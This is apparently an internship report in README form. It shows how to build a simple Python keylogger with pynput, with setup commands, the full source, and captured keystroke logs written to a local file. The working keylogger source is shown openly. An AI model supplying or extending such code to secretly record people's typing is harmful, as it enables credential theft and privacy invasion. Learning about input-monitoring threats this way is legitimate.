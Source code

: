 # Task 8: Keylogger Creation for Educational Use
## Internship at : Broskieshub.com

## Objective

I’m building a simple keylogger in Python using the `pynput` library to demonstrate how attackers might capture keystrokes for educational purposes only. This helps me understand input monitoring techniques and highlights the importance of security practices.

## Dependencies

- Python 3.13.7
- I install `pynput` in a virtual environment to avoid Kali Linux’s externally managed environment error.

### Setup Virtual Environment

1. I install `python3-venv`:
    
    ```
    sudo apt install python3-venv
    ```
    
2. I create and activate a virtual environment:
    
    ```
    python3 -m venv keylogger_env
    source keylogger_env/bin/activate
    ```
    
3. I install `pynput` inside the virtual environment:
    
    ```
    pip install pynput
    ```
    

**Screenshot Points (SS):**

- After I create and activate the virtual environment (showing terminal output).

![](Screenshots/01_ven.png)

- After I install `pynput` (showing pip output).

![](Screenshots/02_pynput.png)

## Source Code

I save the following as `keylogger.py`:

```python
from pynput.keyboard import Key, Listener
import logging

# Set up logging to file
logging.basicConfig(filename='keylog.txt', level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

def on_release(key):
    if key == Key.esc:  # Stop listener on ESC key
        return False

# Start listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Usage Demo

1. I ensure the virtual environment is activated:
    
    ```
    source ~/Desktop/Task8/keylogger_env/bin/activate
    ```
    
2. I run the script:
    
    ```
    python keylogger.py
    ```
    
3. I type sample input.
4. I press ESC to stop.
5. I view the logs in `keylog.txt`.

**Screenshot Points (SS):**

- Terminal showing execution and typing in progress.

![](Screenshots/03_script_run.png)

## Captured Logs 
These also can be found at [Logs](Evidences/keylog.txt)

```
2025-09-28 15:53:20,828: Key.shift_r  
2025-09-28 15:53:21,350: 'H'  
2025-09-28 15:53:21,623: 'e'  
2025-09-28 15:53:21,901: 'l'  
2025-09-28 15:53:22,154: 'l'  
2025-09-28 15:53:22,386: 'o'  
2025-09-28 15:53:22,710: Key.space  
2025-09-28 15:53:24,271: Key.shift_r  
2025-09-28 15:53:24,581: 'C'  
2025-09-28 15:53:24,939: 'a'  
2025-09-28 15:53:25,157: 'n'  
2025-09-28 15:53:25,460: Key.space  
2025-09-28 15:53:26,143: 'y'  
2025-09-28 15:53:26,421: 'o'  
2025-09-28 15:53:26,704: 'u'  
2025-09-28 15:53:27,078: Key.space  
2025-09-28 15:53:27,402: 's'  
2025-09-28 15:53:28,579: 'e'  
2025-09-28 15:53:28,809: 'e'  
2025-09-28 15:53:29,297: Key.space  
2025-09-28 15:53:30,782: 'm'  
2025-09-28 15:53:31,019: 'e'  
2025-09-28 15:53:31,313: Key.shift_r  
2025-09-28 15:53:31,693: '?'  
2025-09-28 15:53:32,290: Key.space  
2025-09-28 15:53:32,437: Key.shift_r  
2025-09-28 15:53:35,218: ':'  
2025-09-28 15:53:35,948: ')'  
2025-09-28 15:53:38,105: Key.esc
```

## Notes

- I use this ethically for the demo and deactivated the virtual environment after use:
    
    ```
    deactivate
    ```
    
- This is for learning—I do not deploy it on unauthorized systems.

---
End of report.
